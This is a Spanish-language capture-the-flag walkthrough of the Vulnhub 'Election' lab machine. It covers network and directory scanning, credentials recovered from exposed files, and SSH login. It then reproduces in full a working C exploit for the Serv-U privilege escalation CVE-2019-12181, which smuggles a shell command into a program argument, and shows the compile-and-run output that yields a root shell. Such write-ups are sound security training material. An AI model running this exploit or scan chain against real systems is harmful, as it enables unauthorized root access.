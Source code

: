 ```yaml
---
title: Election
layout: default
nav_order: 1
parent: Vulnhub
---
```


# Election
{:.no_toc}

---

1. List
{:toc}

---


[Descarga de la máquina](https://www.vulnhub.com/entry/election-1,503/)

Primero configuraremos la máquina para que su conexión sea con adaptador puente dentro de la configuración de VirtualBox. Una vez hecho comprobaremos que tenemos conexión con esta, teniendo en cuenta que nuestra máquina atacante esté también en modo adaptador puente.

## Reconocimiento
&nbsp;

Para saber la IP de la máquina podemos realizar un escaneo de la red completa. En este caso utilizaremos arp-scan, que realiza un escaneo mediante el protocolo ARP.

```shell
arp-scan -I ens33 --localnet --ignoredups
```
&nbsp;

En mi caso la IP de la máquina víctima es 192.168.1.37 y la atacante 192.168.1.38. Por lo que ahora podemos realizar un escaneo más intensivo de sus puertos, en este caso de los que tiene abiertos.

```shell
nmap -p- -sS --open --min-rate 5000 192.168.1.37 -n -Pn -oG allPorts
```
&nbsp;

Vemos que tiene los puertos 22 y 80 abiertos, ahora veremos sus versiones.

```shell
nmap -sCV -p22,80 192.168.1.37 -oN targeted
```
&nbsp;

![](/assets/images/Imagenes/Pasted image 20240918113827.png)

&nbsp;

Vemos que la página principal es del servicio apache, por lo que deberemos investigar para ver si tiene más directorios que no podamos acceder. 

![](/assets/images/Imagenes/Pasted image 20240918111531.png)

&nbsp;

En este caso podemos utilizar gobuster, herramienta que nos permite escanear directorios.

```shell
gobuster dir -u 192.168.1.37 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt
```
&nbsp;

Tras esto vemos que hay varios directorios y archivos disponibles, entre ellos /election, phpmyadmin, robots.txt y phpinfo.php.

![](/assets/images/Imagenes/Pasted image 20240918112501.png)

&nbsp;

Si entramos a el directorio election nos encontraremos con una página de bienvenida, pero sin nada interesante que podamos probar. En esta nueva página podemos probar a realizar otro escaneo de directorios con gobuster.

Con esto vemos que hay varios directorios como admin, data languages, pero siendo lo más interesante un archivo llamado pass.php con binarios.

![](/assets/images/Imagenes/Pasted image 20240918115050.png)

![](/assets/images/Imagenes/Pasted image 20240918114410.png)

&nbsp;

Si traducimos esto dos veces a texto ASCII nos dará las credenciales del usuario 1234 y su contraseña.

![](/assets/images/Imagenes/Pasted image 20240918114741.png)

&nbsp;

Al parecer estas no sirven para acceder directamente a la máquina. Pero si probamos en el directorio election/admin con el ID 1234 y la contraseña entraremos en el panel de administrador.

![](/assets/images/Imagenes/Pasted image 20240918115140.png)

&nbsp;

## Explotación

&nbsp;

Si volvemos a hacer un escaneo de directorios dentro de /election/admin vemos que existe el archivo logs.php, con información sobre el usuario love.

![](/assets/images/Imagenes/Pasted image 20240918115739.png)

&nbsp;

```
P@$$w0rd@123
```
&nbsp;


Esta vez si intentamos entrar a la máquina con esta contraseña será válida.

![](/assets/images/Imagenes/Pasted image 20240918120057.png)

![](/assets/images/Imagenes/Pasted image 20240918120257.png)

## Escalada de privilegios

&nbsp;

Una vez dentro podemos ver si pertenecemos a algún grupo específico dentro del sistema, sin embargo esto no es así. Por otra parte, buscando binarios que podamos ejecutar, y obviando algunos como snap, encontramos uno llamativo llamado Serv-U.

```shell
find / -perm -4000 -ls 2>/dev/null | grep -v snap
```

![](/assets/images/Imagenes/Pasted image 20240918120828.png)

&nbsp;

Si buscamos vemos que es un servicio de ftp seguro, por lo que podemos indagar si este tiene alguna vulnerabilidad. Y efectivamente vemos que podemos escalar privilegios debido a una [vulnerabilidad](https://www.exploit-db.com/exploits/47009).

```c
/*

CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation 

vulnerability found by:
Guy Levin (@va_start - twitter.com/va_start) https://blog.vastart.dev

to compile and run:
gcc servu-pe-cve-2019-12181.c -o pe && ./pe

*/

#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```
&nbsp;

Con esto comprobamos que la máquina es capaz de compilar el script viendo si existe el directorio gcc con **which gcc**.

```shell
love@election:/$ which gcc
/usr/bin/gcc
```
&nbsp;

Una vez comprobado nos dirigiremos al directorio **tmp** y crearemos un archivo llamado exploit.c con el contenido de el exploit visto. Después lo compilaremos con gcc con el mismo nombre de salida.

```shell
love@election:/$ cd /tmp
love@election:/tmp$ nano exploit.c
love@election:/tmp$ gcc exploit.c -o exploit
love@election:/tmp$ ls
exploit
exploit.c
```
&nbsp;

Después le daremos permiso de ejecución con **chmod +x** al archivo exploit y lo ejecutaremos con **./exploit**. Con esto tendremos una shell temporal con permisos root.

```shell
love@election:/tmp$ chmod +x exploit
love@election:/tmp$ ./exploit
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# whoami
root
```

![](/assets/images/Imagenes/Pasted image 20240918121943.png)